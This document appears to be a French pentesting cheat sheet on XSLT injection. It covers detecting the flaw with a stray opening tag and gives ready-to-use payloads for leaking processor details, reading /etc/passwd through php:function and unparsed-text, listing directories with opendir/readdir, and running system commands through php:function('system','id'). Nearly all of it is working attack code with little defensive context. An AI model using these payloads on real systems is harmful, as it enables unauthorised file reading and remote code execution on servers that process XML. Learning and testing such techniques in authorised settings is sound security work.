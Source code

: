 
Transformation de documents #XML > Changer la structure du XML

# Identifier une injection XSLT

provoquer une erreur avec une balise ouvrante peut indiquer qu'une vulnérabilité est présente

```XML
<
```


# Exploiter une injection XSLT

## Fuite d'informations

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

## Local File Inclusion (LFI)

XSLT Version 1

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

XSLT Version 2

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

## Lire contenu d'un dossier

XSLT Version 1

```xml
<xsl:value-of select="php:function('opendir','<path>')" />
<xsl:value-of select="php:function('readdir')" />
<xsl:value-of select="php:function('readdir')" />
<xsl:value-of select="php:function('readdir')" />
<xsl:value-of select="php:function('readdir')" />
<xsl:value-of select="php:function('readdir')" />
<xsl:value-of select="php:function('readdir')" />
```



## Remote Code Execution (RCE)

```xml
<xsl:value-of select="php:function('system','id')" />
```